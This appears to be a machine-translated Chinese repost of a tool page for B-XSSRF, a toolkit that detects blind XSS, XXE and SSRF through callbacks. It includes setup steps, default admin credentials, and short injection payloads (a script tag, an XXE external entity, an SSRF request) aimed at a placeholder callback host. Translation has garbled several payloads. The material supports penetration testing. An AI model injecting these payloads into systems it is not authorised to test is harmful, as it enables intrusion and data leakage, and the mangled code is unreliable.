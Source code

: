 # B-XSSRF:检测和跟踪 XSS、XXE 和 SSRF 盲人的工具包

> 原文：<https://kalilinuxtutorials.com/b-xssrf-blind-xss-xxe-ssrf/>

[![B-XSSRF : Toolkit To Detect & Keep Track On Blind XSS, XXE & SSRF](img/7eff3cc6d7ab93be853c434b52d9c36f.png "B-XSSRF : Toolkit To Detect & Keep Track On Blind XSS, XXE & SSRF")](https://1.bp.blogspot.com/-Vru9QykHSQw/XWzC4uJK6HI/AAAAAAAACUk/qmF5sv2OSXwz4N-RjcQ5iDuE9LxQuxS_gCLcBGAs/s1600/icon%2B%25281%2529.png)

B-XSSRF 是一个工具包，用于检测和跟踪盲人 XSS，XXE & SSRF。

![](img/19504b5e2c07841f769eb05564092ee3.png)

**阅读更多-[red hunt OS:对手模拟虚拟机&威胁追踪](https://kalilinuxtutorials.com/redhunt-os-virtual-machine/)**

**设置**

*   将文件上传到您的服务器。
*   创建一个数据库并将 **database.sql** 文件上传到其中。
*   更改【db.php】文件**中的 **DB 凭证**。**
*   准备好了。

**用法**

**盲人 XSS**

<embed src="”http://mysite.com/bxssrf/request.php”">
<script src = " http://my site . com/bxssrf/request . PHP ">

**盲目二十**

<DOCTYPE 根[
]T6！ENTITY % ext SYSTEM " http://my site . com/bxssrf/request . PHP ">% ext；
>
r>

**SSRF**

GET/tests SRF . PHP = http://my site . com/bxs SRF/request . PHP

**默认凭证**

**用户:**admin@test.com
通行证: 123456

[**Download**](https://github.com/SpiderMate/B-XSSRF)